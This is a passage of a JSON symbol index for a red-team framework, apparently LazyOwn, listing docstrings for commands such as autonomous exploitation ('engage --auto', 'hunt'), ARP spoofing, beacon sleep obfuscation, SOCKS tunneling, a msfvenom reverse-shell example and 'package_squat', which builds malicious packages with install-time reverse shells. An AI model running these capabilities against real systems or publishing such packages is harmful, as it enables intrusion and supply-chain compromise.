"Print a unified operational situation report.\n\nAggregates in one view: target/attacker/domain, current phase and OS,\nnmap scans found for the active target, captured credentials and\nhashes, tasks backlog (New/Started/Done), operator notes, pivot chain,\nand world model host/vuln/cred counts.\n\nRun this at the start of a shift, after pivoting to a new target, or\nwhenever you need a quick 'where are we?' during the engagement.\n\nUsage:\n    ``sitrep``", "kind": "method", "line": 236, "name": "do_sitrep", "signature": "def do_sitrep(self, line)"}, {"doc": "assign a parameter value, persist to payload.json and refresh aliases.\n\nThe mutation is delegated to :func:`cli.assign.apply_assign` which\nwrites ``payload.json`` atomically through :func:`core.config.save_payload`\nwhen the parameter is known. After a successful update, aliases are\nre-rendered so commands like ``backdoor`` or ``coerce_plus`` immediately\nreflect the new value without a shell restart.\n\n:param line: '<parameter> <value>'.\n:type line: str\n:return: None", "kind": "method", "line": 253, "name": "do_assign", "signature": "def do_assign(self, line)"}, {"doc": "Manage multi-tenancy: list, switch, or create engagement tenants.\n\nEach tenant has its own payload profile and session directory,\nproviding isolated environments for parallel engagements.\n\nUsage:\n    ``tenant``                           list all tenants\n    ``tenant switch <id>``               activate a tenant\n    ``tenant create <name>``             create a new tenant from current payload\n    ``tenant info``                      show active tenant details\n\nTenant payloads are stored in ``payloads/<id>.json`` and sessions\nin ``sessions/<id>/``. The default tenant always exists.", "kind": "method", "line": 306, "name": "do_tenant", "signature": "def do_tenant(self, line)"}, {"doc": "Manage the authorized engagement scope and the scope-guard posture.\n\nThe scope guard checks every offensive command against this list before\nit runs. While the scope is empty the guard is dormant, so defining a\nscope is opt-in and never disrupts an existing campaign. Entries may be\nCIDR networks, bare IP addresses or hostnames (a leading ``*.`` matches\nsubdomains).\n\nUsage:\n    ``scope``                          show the scope and the mode\n    ``scope add <cidr|ip|host>``       authorize an entry\n    ``scope rm <cidr|ip|host>``        remove an entry\n    ``scope clear``                    remove every entry\n    ``scope mode <off|warn|enforce>``  set the enforcement posture\n\nModes:\n    ``off``      guard disabled.\n    ``warn``     out-of-scope offensive commands run but warn (default).\n    ``enforce``  out-of-scope offensive commands are blocked pending\n                 interactive confirmation.", "kind": "method", "line": 379, "name": "do_scope", "signature": "def do_scope(self, line)"}, {"doc": "Show params, modules, payloads, or active module options.\n\nUsage:\n    show                       — show all params (default)\n    show exploits              — list all exploit modules\n    show auxiliary             — list auxiliary modules\n    show scanners              — list scanner modules\n    show post                  — list post-exploitation modules\n    show payloads              — list registered payloads\n    show options               — show active module options\n    show modules               — list all modules\n    show all                   — list all modules by type", "kind": "method", "line": 445, "name": "do_show", "signature": "def do_show(self, line)"}, {"doc": "Lists all available scripts in the modules directory.\n\nThis method prints a list of available scripts in a formatted manner, arranging\nthem into columns. It shows each script with sufficient spacing for readability.\n\n:param line: This parameter is not used in the method.\n:type line: str\n:return: None", "kind": "method", "line": 521, "name": "do_list", "signature": "def do_list(self, line)"}, {"doc": "Runs a specific LazyOwn script or active module.\n\nIf a module is active (via ``use <module>``), ``run`` executes it.\nOtherwise it runs a script from the toolkit by name.\n\n:param line: The command line input containing the script name.\n:type line: str\n:return: None", "kind": "method", "line": 550, "name": "do_run", "signature": "def do_run(self, line)"}, {"doc": "Load parameters from a specified payload JSON file.\n\nThis function loads parameters from a JSON file specified by the `line` argument and updates the instance's `params` dictionary with the values from the file. If the file does not exist or contains invalid JSON, it will print an appropriate error message.\n\nUsage:\n    payload <filename>\n\n:param line: The name of the JSON file to load.\n:type line: str\n\n:returns: None\n\nManual execution:\n1. Open and read the specified JSON file.\n2. Update the `params` dictionary with values from the JSON file.\n3. Print a success message if the parameters were successfully loaded.\n4. Handle `FileNotFoundError` if the file does not exist.\n5. Handle `JSONDecodeError` if there is an error decoding the JSON file.\n\nDependencies:\n- `json` module for reading and parsing the JSON file.\n\nExample:\n    To execute the function, call `payload payload_10.10.10.10.json`.\n\nNote:\n    - Ensure that the specified JSON file exists in the current directory and is properly formatted.\n    - The confirmation message includes color formatting for better visibility.", "kind": "method", "line": 589, "name": "do_payload", "signature": "def do_payload(self, line)"}, {"doc": "Show next-step recommendations or execute the active autosuggest.\n\nTwo modes share the same verb:\n\n* ``next <command> [N]`` — show ordered chain recommendations for\n  ``<command>`` (static kill-chain + nmap-discovered services +\n  addon/tool triggers), capped at ``N`` (default 5). Mirrors the\n  MCP tool ``lazyown_command_next`` so CLI and AI see the same\n  data. This is the chain's complement to ``prev``.\n* ``next`` (no args) — pop and execute the active autosuggest\n  accelerator (the dim ``press '.' to run: <cmd>`` line). The\n  accelerator alias ``.`` keeps working unchanged.\n\nArgs:\n    line: Empty for the accelerator mode, or ``<verb> [limit]``\n        for the chain mode.\n\nReturns:\n    None.", "kind": "method", "line": 640, "name": "do_next", "signature": "def do_next(self, line)"}, {"doc": "Preview the planner intents the autonomous loops would run next.\n\nUsage:\n    frontier\n    frontier 192.168.1.10\n\nRuns the same ``Planner + Frontier`` refill the engage daemon and\n``auto_loop`` consume: fact-ranked MITRE techniques for the target,\nminus tried and creds-gated ones. Nothing is executed; this is the\nread-only view of the loop's next direction.\n\nArgs:\n    line: Optional target IP. Defaults to the ``rhost`` payload value.\n\nReturns:\n    None.", "kind": "method", "line": 684, "name": "do_frontier", "signature": "def do_frontier(self, line)"}, {"doc": "Show recent autonomous step traces with evidence and traffic ids.\n\nUsage:\n    traces\n    traces lazynmap\n    traces --limit 20\n\nTails the autonomous step records both loops settle — first\n``sessions/worker_traces.jsonl`` (auto_loop, with evidence hash,\ntraffic exchange and proven goals), falling back to\n``sessions/intents.jsonl`` (engage daemon ledger: command, phase,\nstate, reason). Optional substring filters by command.\n\nArgs:\n    line: Optional query substring and ``--limit N``.\n\nReturns:\n    None.", "kind": "method", "line": 728, "name": "do_traces", "signature": "def do_traces(self, line)"}, {"doc": "Toggle interactive kill-chain chaining after every command.\n\nUsage:\n    chainmode on          Start the chain flow.\n    chainmode off         Stop the chain flow.\n    chainmode status      Show whether chaining is active.\n\nWhen on, every executed command is followed by a world-model-driven\nprompt listing the next kill-chain step(s). Press Enter to run the\ntop suggestion, type ``1..N`` to pick a ranked alternative, type\nany command to override the suggestion and keep chaining from it,\n``skip`` to continue manually, or ``off`` to exit. The state is\npersisted to ``sessions/chain_mode.json``.\n\nArgs:\n    line: Whitespace-stripped sub-command (on/off/status).\n\nReturns:\n    None.", "kind": "method", "line": 809, "name": "do_chainmode", "signature": "def do_chainmode(self, line)"}, {"doc": "Drive a single target through the full kill-chain in one command.\n\nUsage:\n    engage <target>                  Run synchronously on the target IP\n    engage <target> --auto           Full auto mode: no human in the loop\n    engage <target> --background     Detach into a background worker\n    engage <target> --max-switches N Set per-step fallback retry limit\n    engage --status                  Tail the engagement log + show pending approvals\n    engage --pending                 List approval requests awaiting an operator\n    engage --approve <id> [--operator name]\n    engage --deny <id>    [--operator name]\n\nThe orchestrator runs ping/OS detect -> nmap -> auto_populate -> enum\n-> exploit-search -> initial-access against the target. Each phase\nconsults the ApprovalGate when ``auto_approve`` is false in\n``payload.json``; gated phases pause for an operator decision before\nexecuting. Failures auto-switch to the next bridge-catalog\nalternative. Every action is narrated to ``sessions/engagement.log``\nand broadcast through ``modules.collab_bp`` so connected teammates\nsee the kill-chain in real time.\n\nWith ``--auto`` the engagement runs with no human in the loop. The\nApprovalGate is replaced by a ``ScopeBoundAutoGate`` that never\nprompts: it approves every step whose target is inside the authorized\n``scope`` (or when the scope guard is dormant) and denies any\nout-of-scope target while ``scope_enforcement`` is ``enforce`` — the\nsingle fail-closed boundary unattended autonomy keeps. When the\nkill-chain finishes a client-ready report is written to ``sessions/``.\n\n:param line: Target IP plus optional flags.\n:type line: str\n:return: None", "kind": "method", "line": 860, "name": "do_engage", "signature": "def do_engage(self, line)"}, {"doc": "Declarative composition layer: run a YAML pipeline of LazyOwn commands.\n\nUsage:\n    pipeline list                          List every YAML pipeline in pipelines/\n    pipeline validate <name>               Parse and check a pipeline schema\n    pipeline run <name>                    Execute the pipeline synchronously\n    pipeline run <name> --background       Detach into a worker thread\n    pipeline run <name> --target <ip>      Override payload.rhost for this run\n    pipeline status                        Show the N most recent runs (summary)\n    pipeline show <name>                   Print the validated step list\n\nPipelines live in pipelines/*.yaml. They compose existing LazyOwn\ncommands into ordered, conditional, recoverable plans. Each run is\npersisted under sessions/pipelines/<name>__<run-id>/ with the\nfrozen plan, per-step JSON records, and a summary. Live narration\nis broadcast through the same fabric used by ``engage``.\n\n:param line: Subcommand plus optional positional / flag arguments.\n:type line: str\n:return: None", "kind": "method", "line": 987, "name": "do_pipeline", "signature": "def do_pipeline(self, line)"}, {"doc": "Executes commands defined in a lazyscript file.\n\nThis function reads a script file containing commands to be executed\nsequentially. Each command is executed using the onecmd method of the\ncmd.Cmd class. The script file should be located in the 'lazyscripts'\ndirectory relative to the current working directory.\n\nArgs:\n    line (str): The name of the script file to execute (e.g., 'lazyscript.ls').\n\nExample:\n    do_lazyscript('example_script.ls')\n    This would execute all commands listed in 'lazyscripts/example_script.ls'.", "kind": "method", "line": 1078, "name": "do_lazyscript", "signature": "def do_lazyscript(self, line)"}, {"doc": "Run an autonomous exploitation chain against a target.\n\nProfiles the target's attack surface, ranks exploit candidates by\nconfidence, and executes them in order until a shell is obtained or\nthe exploit limit is reached. Adapts strategy based on results.\n\nThe engine reads from ``sessions/world_model.json`` to understand\nwhat services, versions, and vulnerabilities exist. No re-scanning.\n\nUsage:\n    hunt <target_ip> [max_exploits]\n    hunt 10.10.11.5\n    hunt 10.10.11.5 10\n\n:param line: Target IP and optional max exploit count.\n:type line: str\n:return: None", "kind": "method", "line": 1110, "name": "do_hunt", "signature": "def do_hunt(self, line)"}, {"doc": "Browse previous sessions and load a target from a past engagement.\n\nScans sessions/ for IP directories with scan data, credentials, or\nworld model state, and presents them for quick resume.\n\nUsage:\n    ``resume``      — show the session selector panel", "kind": "method", "line": 1201, "name": "do_resume", "signature": "def do_resume(self, line)"}, {"doc": "Get the SecLists wordlist from GitHub.\n\nThis function downloads and extracts the SecLists wordlist from GitHub to the `/usr/share/wordlists/` directory.\n\nUsage:\n    getseclist\n\n:param line: This parameter is not used in this function.\n:type line: str\n\n:returns: None\n\nManual execution:\n1. Navigate to the `/usr/share/wordlists/` directory.\n2. Download the SecLists repository using `wget`.\n3. Extract the downloaded ZIP file.\n4. Remove the ZIP file after extraction.\n\nDependencies:\n- `wget` must be installed on the system.\n- `unzip` must be installed on the system.\n- `sudo` must be available for downloading and extracting files.\n\nExample:\n    To execute the function, simply call `getseclist`.\n\nNote:\n    - Ensure that you have the necessary permissions to write to the `/usr/share/wordlists/` directory.\n    - If `wget` or `unzip` is not installed, the function will fail.", "kind": "method", "line": 1223, "name": "do_getseclist", "signature": "def do_getseclist(self, line)"}, {"doc": "Downloads resources into the `sessions` directory.\n\nThis function performs the following actions:\n1. Changes to the `sessions` directory and executes `download_resources.sh` to download required resources.\n\nUsage:\n    download_resources\n\n:param line: Not used in this function.\n:type line: str\n:returns: None\n\nManual execution:\n1. Runs the `download_resources.sh` script in the `sessions` directory to download necessary resources.\n\nDependencies:\n- `download_resources.sh` must be present in the `sessions` directory.\n\nExample:\n    download_resources\n\nNote:\n    - Ensure that the `download_resources.sh` script is present in the `sessions` directory and is executable.\n    - After running this command, you can use the `www` command as indicated by the printed message.", "kind": "method", "line": 1261, "name": "do_download_resources", "signature": "def do_download_resources(self, line)"}, {"doc": "Print the multi-operator collaboration join URL and SSE endpoint.\n\nOutputs the URL teammates need to open in a browser to connect to the\nshared operator dashboard at /collab/ and the curl command to consume\nthe SSE event stream from a terminal.\n\nUsage:\n    ``collab_join``                    — print join URL for current self.params['lhost']/self.params['c2_port']\n    ``collab_join alice``              — print URL with operator handle pre-filled\n    ``collab_join alice --curl``       — also print the curl SSE command\n\n:param line: Optional operator handle and flags.\n:type line: str\n:return: None", "kind": "method", "line": 1294, "name": "do_collab_join", "signature": "def do_collab_join(self, line)"}, {"doc": "Handles the process of sending a spoofed ARP packet to a specified IP address with a given MAC address.\n\nThis function performs the following steps:\n1. Executes a command to list current ARP entries and prints the IP and MAC addresses.\n2. Prompts the user to input the target IP and MAC address in a specified format.\n3. Parses the provided input to extract the IP and MAC addresses.\n4. Sets up default values for the gateway IP, local MAC address, and network interface.\n5. Creates an ARP packet with the specified target IP and MAC address.\n6. Sends the ARP packet using the specified network interface.\n7. Prints a confirmation message indicating that the spoofing packet has been sent.\n\nArgs:\n    line (str): Input line for the command, which is not used directly in this function.\n\nRaises:\n    Exception: If any error occurs during the execution of the function.", "kind": "method", "line": 1325, "name": "do_kick", "signature": "def do_kick(self, line)"}, {"doc": "Exits the application quickly without confirmation.\n\nThis function performs the following tasks:\n1. Prints an exit message with formatting.\n2. Terminates the `tmux` session named `lazyown_sessions` if it exists.\n3. Kills all running `openvpn` processes.\n4. Exits the program with a status code of 0.\n\nUsage:\n    qa\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n    1. The command `tmux kill-session -t lazyown_sessions 2>/dev/null` is executed to kill the tmux session named `lazyown_sessions`, suppressing errors if the session does not exist.\n    2. The command `killall openvpn 2>/dev/null` is executed to terminate all running `openvpn` processes, suppressing errors if no such processes are found.\n    3. The program is exited with a status code of 0 using `sys.exit(0)`.\n\nDependencies:\n    - The function relies on `tmux`, `killall`, and `sys` to perform the exit operations.\n\nExample:\n    qa\n    # This will print an exit message, terminate the tmux session and openvpn processes, and exit the program.\n\nNote:\n    Ensure that `tmux` and `openvpn` are installed and running for their respective commands to have an effect.", "kind": "method", "line": 1374, "name": "do_qa", "signature": "def do_qa(self, line)"}, {"doc": "Displays the current date and time, and runs a custom shell script.\n\nThis function performs the following actions:\n1. Constructs a command to get the current date and time in a specified format.\n2. Uses `figlet` to display the current date and time in a large ASCII text format.\n3. Runs a custom shell script (`cal.sh`) to display additional information or perform further actions related to the clock.\n\nUsage:\n    clock\n\n:param line: This parameter is not used in the function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use this function:\n1. Ensure that `figlet` is installed on your system for displaying text in large ASCII format.\n2. Make sure `cal.sh` exists in the `modules` directory and is executable.\n3. Run the function to see the current date and time displayed in large ASCII text, followed by the execution of `cal.sh`.\n\nNote: The function sets the terminal color to white before displaying the date and time, then sets it to green before running the `cal.sh` script. Finally, it resets the terminal color.\n\nDependencies:\n- `figlet`: For displaying text in large ASCII format.\n- `cal.sh`: A custom shell script located in the `modules` directory.", "kind": "method", "line": 1436, "name": "do_clock", "signature": "def do_clock(self, line)"}, {"doc": "Generates a certificate authority (CA), client certificate, and client key.\n\nReturns:\n    str: Paths to the generated CA certificate, client certificate, and client key.", "kind": "method", "line": 1484, "name": "do_gencert", "signature": "def do_gencert(self, line)"}, {"doc": "Load the session from the sessionLazyOwn.json file and display the status of various parameters.\n\nThis command reads the sessionLazyOwn.json file from the sessions directory and displays the status\nof parameters, credentials, hashes, notes, plan, id_rsa, implants, and redop.\n\n:param line: Additional arguments (not used in this command)", "kind": "method", "line": 1496, "name": "do_load_session", "signature": "def do_load_session(self, line)"}, {"doc": "Clone a website and serve the files in sessions/{url_cloned}.\nArgs:\n    line (str): input line that url to clone\n\nReturns:\n    None", "kind": "method", "line": 1546, "name": "do_clone_site", "signature": "def do_clone_site(self, line)"}, {"doc": "Generate shellcode in C format using msfvenom for either a custom command or a reverse shell payload.\nThis command supports both direct argument input and interactive mode. It uses self.params for default\nvalues (self.params['lhost'], lport, etc). Output is saved to sessions/ as a .txt file in C array format.\nArgs:\n    --payload (-p): MSF payload (e.g., windows/x64/meterpreter/reverse_tcp).\n    --command (-c): Custom command to encode into shellcode (e.g., 'whoami').\n    --self.params['lhost'] (-H): Local IP for reverse shells.\n    --lport (-P): Local port for reverse shells.\n    --os (-o): Target OS: 'windows' or 'linux'.\n    --arch: Target architecture: 'x86' or 'x64' (default: x64).\nOutputs:\n    Saves shellcode to ./sessions/shellcode_*.txt in C format.\n    Uses self.cmd() to run system commands and self.display_toastr() for UI feedback.\nExamples:\n    msfshellcoder -c \"calc.exe\" --os windows\n    msfshellcoder -p linux/x64/shell_reverse_tcp -H 10.0.0.5 -P 4444\n    msfshellcoder  # Launch interactive mode", "kind": "method", "line": 1592, "name": "do_msfshellcoder", "signature": "def do_msfshellcoder(self, line)"}, {"kind": "function", "line": 924, "name": "_flag_value", "signature": "def _flag_value(flag_name)"}, {"kind": "function", "line": 1036, "name": "_flag_value", "signature": "def _flag_value(flag_name)"}]}, {"doc": "Local shell and system extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.", "id": "cli/commands/shellsys.py", "kind": "module", "label": "shellsys.py", "language": "py", "sha256": "07aede457a04dccf", "symbol_count": 12, "symbols": [{"doc": "Local shell and system.", "kind": "class", "line": 23, "name": "ShellSysCommandSet", "signature": "class ShellSysCommandSet(LazyOwnCommandSet)"}, {"doc": "Executes a shell command directly from the LazyOwn interface.\n\nThis function allows the user to execute arbitrary shell commands without exiting the LazyOwn shell.\nIt checks if a command is provided, prints a message indicating the command being executed, and then\nruns the command using `os.system`.\n\nUsage:\n    sh <command>\n\n:param line: The shell command to be executed.\n:type line: str\n:raises ValueError: If no command is provided, an error message is printed indicating that a command is required.\n:returns: None\n\nExample:\n    sh ls -la\n    # This will execute 'ls -la' in the shell without exiting LazyOwn.\n\nNote:\n    Ensure that the command provided is safe to execute and does not include potentially harmful operations.", "kind": "method", "line": 30, "name": "do_sh", "signature": "def do_sh(self, line)"}, {"doc": "Executes a shell command directly from the LazyOwn interface.\n\nThis function allows the user to execute arbitrary shell commands without exiting the LazyOwn shell.\nIt checks if a command is provided, prints a message indicating the command being executed, and then\nruns the command through the audited safe_run_shell gate with output capture.\n\nUsage:\n    sh <command>\n\n:param line: The shell command to be executed.\n:type line: str\n:raises ValueError: If no command is provided, an error message is printed indicating that a command is required.\n:returns: None\n\nExample:\n    sh ls -la\n    # This will execute 'ls -la' in the shell without exiting LazyOwn.\n\nNote:\n    Ensure that the command provided is safe to execute and does not include potentially harmful operations.", "kind": "method", "line": 62, "name": "do_sys", "signature": "def do_sys(self, line)"}, {"doc": "Displays the current working directory and lists files, and copies the current directory path to the clipboard.\n\nThis function performs the following tasks:\n1. Displays the current working directory with `pwd` and lists files in the directory using `ls`.\n2. Copies the current directory path to the clipboard using `xclip`.\n\nUsage:\n    pwd\n\n:param line: This parameter is not used in the function but is included for consistency with other command methods.\n:type line: str\n:returns: None\n\nManual execution:\n    1. The command `echo -e \"[\\e[96m\\`pwd\\`\\e[0m]\\e[34m\" && ls && echo -en \"\\e[0m\"` is executed to display the current working directory and list files in it.\n    2. The current directory path is copied to the clipboard using the command `pwd | xclip -sel clip`.\n\nDependencies:\n    - The function relies on `echo`, `pwd`, `ls`, and `xclip` to display the directory and copy the path to the clipboard.\n\nExample:\n    pwd\n    # This will display the current working directory, list files, and copy the current directory path to the clipboard.\n\nNote:\n    Ensure that `xclip` is installed on your system for copying to the clipboard to work.", "kind": "method", "line": 110, "name": "do_pwd", "signature": "def do_pwd(self, line)"}, {"doc": "Opens or creates the file using line in the sessions directory for editing using nano.\n\n:param line: name of the file to use in nano in session directory.\n\n:returns: None", "kind": "method", "line": 146, "name": "do_nano", "signature": "def do_nano(self, line)"}, {"doc": "Schedules a command to run at a specified time.\n\nThis function allows users to schedule a command to execute at a specific hour and minute.\nIf the specified time has already passed for the current day, the command will be scheduled\nto run the following day.\n\nUsage:\n    cron HH:MM command [args]\n\nParameters:\nline (str): The input string containing the scheduled time in 'HH:MM' format followed by the command and arguments.\n\nReturns:\nNone", "kind": "method", "line": 170, "name": "do_cron", "signature": "def do_cron(self, line)"}, {"doc": "Deletes files and directories in the `sessions` directory, excluding specified files and directories.\n\n1. Checks if the `self.params['rhost']` parameter is valid:\n- Uses the `check_rhost` function to verify if `self.params['rhost']` is assign and valid.\n- If `self.params['rhost']` is not valid, exits the function.\n\n2. Lists files and directories in the `sessions` directory:\n- Uses `os.listdir` to list all files and directories in the `sessions` directory.\n- Compares each item with the list of exclusions.\n\n3. Deletes files and directories not in the exclusion list:\n- Uses `os.remove` to delete files and `shutil.rmtree` to delete directories.\n\n4. Prints a message indicating that the cleanup is complete.\n\n:param line: This parameter is not used in the function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Ensure that you have the correct `self.params['rhost']` value set.\n- Manually execute commands to delete files and directories, excluding specified ones.\n\nNote: This function performs a cleanup by removing various files and directories associated with the current session, excluding specified items.", "kind": "method", "line": 216, "name": "do_clean", "signature": "def do_clean(self, line)"}, {"doc": "Fix permissions for LazyOwn shell scripts.\n\nThis function adjusts the file permissions for shell scripts and CGI scripts in the `modules` directory, making them executable.\n\nUsage:\n    fixperm\n\n:param line: This parameter is not used in this function.\n:type line: str\n\n:returns: None\n\nManual execution:\n1. Change the permissions of all shell scripts in the `modules` directory to be executable.\n2. Change the permissions of all files in the `modules/cgi-bin` directory to be executable.\n\nDependencies:\n- `chmod` command must be available on the system.\n\nExample:\n    To execute the function, simply call `fixperm`.\n\nNote:\n    - Ensure you have the necessary permissions to modify file permissions.", "kind": "method", "line": 303, "name": "do_fixperm", "signature": "def do_fixperm(self, line)"}, {"doc": "Fixes file permissions and line endings in the project directories.\n\nThis function converts line endings from DOS/Windows format to Unix format for all files in the project directories. This helps to ensure consistent line endings and can prevent issues related to file format mismatches.\n\nUsage:\n    fixel\n\n:param line: Command parameters (not used in this function).\n:type line: str\n\n:returns: None\n\nManual execution:\n1. Run the method to fix line endings in the specified directories.\n\nDependencies:\n- The `dos2unix` command must be installed and accessible from the command line.\n\nExamples:\n    1. Run `do_fixel` to convert line endings for all files in the project directories.\n\nNote:\n    - This method only fixes line endings and does not modify file permissions.\n    - Ensure that the `dos2unix` command is installed and functioning correctly.", "kind": "method", "line": 336, "name": "do_fixel", "signature": "def do_fixel(self, line)"}, {"doc": "Open a centered popup in the current tmux session to execute a shell command.\n\nIf no command is provided via argument, prompts the user interactively.\nThe popup remains open after command execution and waits for user acknowledgment\nvia pressing ENTER, avoiding premature closure without requiring fixed sleep delays.\n\nRequirements:\n- Must be run inside an active tmux session (TMUX environment variable set).\n- Tmux server must be running.\n\nThe command is executed in a bash shell within the popup. If tmux is not available\nor the environment is invalid, an error message is displayed and execution aborts.\n\nArgs:\n    line (str): The command to execute in the popup. If empty, prompts user input.", "kind": "method", "line": 369, "name": "do_pop", "signature": "def do_pop(self, line)"}, {"doc": "Executes the `lazypyautogui.py` script with optional arguments.\nThis open new terminal tab and then run and instance of LazyOwn strokes the keyboard with pyautogui\n\nIf a `line` argument is provided, it appends the argument to the command.\nOtherwise, it runs the script without additional parameters. The constructed\ncommand is displayed and executed in the system shell.\n\nParameters:\n    line (str): Optional argument to pass as input to the `lazypyautogui.py` script.\n\nReturns:\n    None", "kind": "method", "line": 406, "name": "do_tab", "signature": "def do_tab(self, line)"}, {"kind": "function", "line": 205, "name": "lazyrun_command", "signature": "def lazyrun_command()"}]}, {"doc": "Sleep obfuscation CommandSet — beacon memory evasion technique management.  Exposes ``modules/sleep_obfuscation`` through the LazyOwn CLI.", "id": "cli/commands/sleep_obfuscation.py", "kind": "module", "label": "sleep_obfuscation.py", "language": "py", "sha256": "cc1ebc7c28e775a9", "symbol_count": 4, "symbols": [{"doc": "Sleep obfuscation technique manager.", "kind": "class", "line": 16, "name": "SleepObfuscationCommandSet", "signature": "class SleepObfuscationCommandSet(LazyOwnCommandSet)"}, {"doc": "List available sleep obfuscation techniques.\n\nUsage: sleep_list [--windows | --linux]", "kind": "method", "line": 23, "name": "do_sleep_list", "signature": "def do_sleep_list(self, line)"}, {"doc": "Show detailed information about a sleep obfuscation technique.\n\nUsage: sleep_info <technique_name>", "kind": "method", "line": 50, "name": "do_sleep_info", "signature": "def do_sleep_info(self, line)"}, {"doc": "Configure the active sleep obfuscation technique.\n\nUsage: sleep_configure <technique_name> [--encrypt_heap --indirect_syscalls]\n\nAvailable techniques:\n  sleep_mask, ekko, stack_spoof, module_stomp, fiber_sleep,\n  thread_pool, hwbp_sleep, linux_gatekeeper, linux_futex_hide", "kind": "method", "line": 82, "name": "do_sleep_configure", "signature": "def do_sleep_configure(self, line)"}]}, {"doc": "SOCKS proxy CommandSet — beacon tunneling configuration.  Exposes ``modules/socks_proxy`` through the LazyOwn CLI.", "id": "cli/commands/socks_proxy.py", "kind": "module", "label": "socks_proxy.py", "language": "py", "sha256": "adcdec9f5654933b", "symbol_count": 4, "symbols": [{"doc": "SOCKS5 proxy configuration commands.", "kind": "class", "line": 18, "name": "SocksProxyCommandSet", "signature": "class SocksProxyCommandSet(LazyOwnCommandSet)"}, {"doc": "Show or configure the SOCKS5 proxy.\n\nUsage: socks_config [--bind <ip>] [--port <n>] [--no-localhost] [--json]\n\nDisplays the current SOCKS proxy configuration. Use flags to\noverride settings for the next beacon build.", "kind": "method", "line": 25, "name": "do_socks_config", "signature": "def do_socks_config(self, line)"}, {"doc": "List active SOCKS proxy sessions.\n\nUsage: socks_sessions", "kind": "method", "line": 75, "name": "do_socks_sessions", "signature": "def do_socks_sessions(self, line)"}, {"doc": "Export SOCKS5 proxy specification for beacon delivery.\n\nUsage: socks_export [--file <path>]\n\nOutputs the JSON spec that beacons use to configure their\ninternal SOCKS5 proxy listener.", "kind": "method", "line": 94, "name": "do_socks_export", "signature": "def do_socks_export(self, line)"}]}, {"doc": "Supply Chain Attack command set.  Covers dependency confusion scanning, package squatting detection, and malicious package template generation for red team operations.", "id": "cli/commands/supply_chain.py", "kind": "module", "label": "supply_chain.py", "language": "py", "sha256": "4c0bf77d3c280270", "symbol_count": 13, "symbols": [{"doc": "Supply chain attack operations.", "kind": "class", "line": 88, "name": "SupplyChainCommandSet", "signature": "class SupplyChainCommandSet(LazyOwnCommandSet)"}, {"doc": "Parse a Python requirements.txt file.\n\nArgs:\n    filepath: Path to requirements.txt.\n\nReturns:\n    List of (package_name, version) tuples.", "kind": "function", "line": 282, "name": "_parse_requirements", "signature": "def _parse_requirements(filepath)"}, {"doc": "Parse an npm package.json file.\n\nArgs:\n    filepath: Path to package.json.\n\nReturns:\n    List of (package_name, version) tuples.", "kind": "function", "line": 307, "name": "_parse_package_json", "signature": "def _parse_package_json(filepath)"}, {"doc": "Parse a Ruby Gemfile.\n\nArgs:\n    filepath: Path to Gemfile.\n\nReturns:\n    List of (gem_name, version) tuples.", "kind": "function", "line": 328, "name": "_parse_gemfile", "signature": "def _parse_gemfile(filepath)"}, {"doc": "Parse a Rust Cargo.toml file.\n\nArgs:\n    filepath: Path to Cargo.toml.\n\nReturns:\n    List of (crate_name, version) tuples.", "kind": "function", "line": 348, "name": "_parse_cargo_toml", "signature": "def _parse_cargo_toml(filepath)"}, {"doc": "Parse a Go go.mod file.\n\nArgs:\n    filepath: Path to go.mod.\n\nReturns:\n    List of (module_name, version) tuples.", "kind": "function", "line": 377, "name": "_parse_go_mod", "signature": "def _parse_go_mod(filepath)"}, {"doc": "Parse a Maven pom.xml file.\n\nArgs:\n    filepath: Path to pom.xml.\n\nReturns:\n    List of (artifact_id, version) tuples.", "kind": "function", "line": 397, "name": "_parse_pom_xml", "signature": "def _parse_pom_xml(filepath)"}, {"doc": "Check if a package exists on PyPI.\n\nArgs:\n    package_name: Package name to check.\n\nReturns:\n    True if the package is registered on PyPI.", "kind": "function", "line": 425, "name": "_pypi_exists", "signature": "def _pypi_exists(package_name)"}, {"doc": "Check if a package name looks internal/private.\n\nArgs:\n    name: Package or module name.\n\nReturns:\n    True if the name matches internal naming patterns.", "kind": "function", "line": 450, "name": "is_internal_name", "signature": "def is_internal_name(name)"}, {"doc": "Extract a ``--flag <value>`` pair from a list of arguments.", "kind": "function", "line": 475, "name": "_extract_flag", "signature": "def _extract_flag(args, flag)"}, {"doc": "Scan a requirements.txt for dependency confusion candidates.\n\nUsage: depconfuse <requirements_file> [--check-registry]\n\nParses a Python requirements.txt and checks which packages do NOT\nexist on PyPI (private/internal packages). These are vulnerable to\ndependency confusion attacks.", "kind": "method", "line": 95, "name": "do_depconfuse", "signature": "def do_depconfuse(self, line)"}, {"doc": "Generate a malicious PyPI package for dependency confusion.\n\nUsage: package_squat <package_name> [--lhost <ip>] [--lport <port>] [--type <pypi|npm>] [--description <text>]\n\nCreates a package with an install-time reverse shell payload.\nOutputs to sessions/supply_chain/<package_name>/.", "kind": "method", "line": 140, "name": "do_package_squat", "signature": "def do_package_squat(self, line)"}, {"doc": "Scan a directory tree for dependency files and flag risks.\n\nUsage: depscan <directory> [--output <report.json>]\n\nScans for requirements.txt, package.json, Gemfile, pom.xml,\nCargo.toml, go.mod and reports internal/non-public dependencies.", "kind": "method", "line": 216, "name": "do_depscan", "signature": "def do_depscan(self, line)"}]}, {"doc": "Attack-surface operations: confirmed discovery scans, estorides fusion.  ``scandiscovery`` lists every IP found in the sessions discovery files and only launches ``lazynmap`` after the operator confirms — scans never fire blind. ``estorides_intel`` refreshes the estorides OSINT export and fuses it into the campaign graphs (intel + attack 3D, circular, spherical), where matching IPs/values merge nodes instead of duplicating them, and refreshes the loop summary.", "id": "cli/commands/surface.py", "kind": "module", "label": "surface.py", "language": "py", "sha256": "01c72c5798eb1999", "symbol_count": 3, "symbols": [{"doc": "Discovery scans and OSINT fusion for the attack surface.", "kind": "class", "line": 36, "name": "SurfaceCommandSet", "signature": "class SurfaceCommandSet(LazyOwnCommandSet)"}, {"doc": "Scan every discovery IP with operator confirmation.\n\nUsage: scandiscovery [--yes]\n\nLists the IPs collected in ``sessions/hostsdiscovery.txt`` and\n``sessions/hosts_*_discovery.txt``, asks for confirmation (skipped\nwith ``--yes``), then runs ``lazynmap`` once per IP. Aborts\ncleanly on EOF/non-interactive shells.", "kind": "method", "line": 43, "name": 